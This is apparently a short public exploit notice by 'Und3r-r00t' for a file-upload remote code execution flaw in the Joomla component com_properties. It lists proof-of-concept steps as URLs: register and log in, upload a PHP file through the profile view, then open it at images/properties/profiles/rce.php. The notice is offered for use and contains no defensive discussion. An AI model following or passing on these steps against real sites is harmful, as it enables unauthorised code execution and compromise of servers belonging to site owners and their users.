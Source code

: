 # com_properties
# Exploit Title: Joomla Component 'com_properties' File Upload/RCE
# Google Dork: NA
# Exploit Author: Und3r-r00t
# Tested on: Centos

#PoC  

1- register and login

#	http://localhost/index.php?option=com_user&task=register&Itemid=296
#	http://localhost/index.php?option=com_user&view=login

2- Upload File 

#	http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19

3- File path

#	http://localhost/images/properties/profiles/rce.php


----------------------
github - Und3r-r00t
twitter - @p33rl
----------------------
